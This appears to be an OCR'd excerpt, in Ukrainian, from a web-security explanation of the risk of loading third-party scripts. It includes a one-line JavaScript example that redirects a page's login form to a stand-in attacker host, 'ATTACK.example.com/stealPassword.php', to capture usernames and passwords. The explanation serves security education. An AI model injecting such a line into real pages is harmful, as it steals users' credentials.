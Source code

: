 Ця веб-сторінка тепер настільки безпечна, наскільки безпечна зовнішня доменна функція, з якої вона включає функції. Якби зловмисник скомпрометував зовнішній домен і міг додати шкідливі сценарії до файлу weatherwidget.js, зловмисник мав би повний контроль

Наприклад, інформацію про вхід користувача можна легко вкрасти за допомогою одного рядка, доданого до weatherwidget.js:

```
...Weather widget code....
document.getElementById('loginForm').action = "ATTACK.example.com/stealPassword.php";
```

Цей рядок JavaScript змінює початкову ціль дії форми входу з оригінального веб-сайту на сайт атаки. У результаті, якщо користувач спробує ввійти, його ім’я користувача та пароль будуть надіслані безпосередньо на сайт атаки.
